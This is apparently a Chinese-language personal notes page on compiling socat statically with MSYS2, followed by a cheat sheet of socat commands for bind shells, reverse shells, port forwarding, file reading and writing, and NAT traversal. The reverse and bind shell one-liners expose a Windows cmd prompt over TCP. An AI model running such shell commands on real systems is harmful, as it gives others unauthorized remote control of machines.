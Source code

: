 ```yaml
---
author: XhstormR
categories:
- Notes
date: 2020-01-28T21:49:39+08:00
title: 构建 socat
---
```


<!--more-->

Updated on 2020-01-28

> [MSYS2](https://mirrors.tuna.tsinghua.edu.cn/msys2/distrib/msys2-x86_64-latest.tar.xz)
>
> [socat](http://www.dest-unreach.org/socat/download/socat-1.7.3.4.tar.gz)

## Step
```bash
D:\Work\Download\socat>

pacman -Syu
pacman -S --noconfirm --needed gcc make libreadline-devel

./configure CFLAGS='-s -static -Os' && make
```

```bash
单向模式:
-u in -> out
-U out <- in

Bind Shell
----
LHOST:
ncat 127.0.0.1 1234
or
socat tcp-connect:127.0.0.1:1234 readline
RHOST:
socat tcp-listen:1234,fork,reuseaddr exec:"cmd",pty,stderr

Reverse Shell
----
LHOST:
socat tcp-listen:1234,fork,reuseaddr readline
RHOST:
socat tcp-connect:127.0.0.1:1234 exec:"cmd",pty,stderr

单进程应用 -> 多进程服务
----
LHOST:
socat -u tcp-connect:127.0.0.1:1234 -
RHOST:
socat -U tcp-listen:1234,fork,reuseaddr exec:"busybox ps",pty,stderr

监听端口
----
LHOST:
socat tcp-listen:1234,fork,reuseaddr -
RHOST:
ncat 127.0.0.1 1234
or
curl 127.0.0.1:1234

端口转发
----
socat tcp-listen:1234,fork,reuseaddr tcp-connect:192.168.1.19:3389

写入文件
----
echo 123 | socat -u - ./123.txt

读取文件
----
socat -U - ./123.txt

内网穿透（不推荐）
----
公网：
socat tcp-listen:1234,fork,reuseaddr tcp-listen:8080
内网：
socat tcp-connect:47.98.135.65:1234 tcp-connect:192.168.1.19:80
客户端：
curl 47.98.135.65:8080
```

## Reference
* http://www.dest-unreach.org/socat/doc/socat.html
